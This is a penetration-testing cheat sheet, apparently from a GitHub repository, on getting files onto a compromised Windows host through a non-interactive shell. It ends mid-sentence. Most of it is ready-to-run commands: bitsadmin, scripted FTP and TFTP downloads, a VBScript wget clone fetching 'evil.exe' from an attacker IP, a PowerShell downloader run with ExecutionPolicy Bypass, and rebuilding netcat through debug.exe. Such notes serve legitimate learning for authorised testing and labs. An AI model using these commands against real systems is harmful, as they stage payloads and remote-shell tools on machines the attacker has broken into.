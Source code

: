 # Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.



## To and from client to server SMB / RDP
If you are using RDP on windows you can just attach a directory to share from when you start your RDP session.

```
xfreerdp /u:MYUSERNAME /v:10.10.10.1111 /drive:fildel,/home/temp/tmp
```

Now you can simply open the Computer part in your Explorer window, and you should see the disk `fildel`. In that share you can share documents between your computer and the RDP server.


## From client to server SMB / RDP
A simple way is simply to to connect to your server with xfreerdp and then open up the fil-browser in your linux machine, and copy the file. Then go to your windows server and simply paste the file.
For me it only works in that direction, and not the reverse.

## From X server to Windows (Bitsadmin)

Downloading a file with CMD can be done with bitsadmin.


```
bitsadmin /transfer aaa http://192.168.66.87/apaa.txt c:\Users\temp\aaa.txt
```





## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:  

**Windows XP**  

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:
```
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe


# Transfering files Windows to linux

## smb-client
If you only have a hash of a user which is 


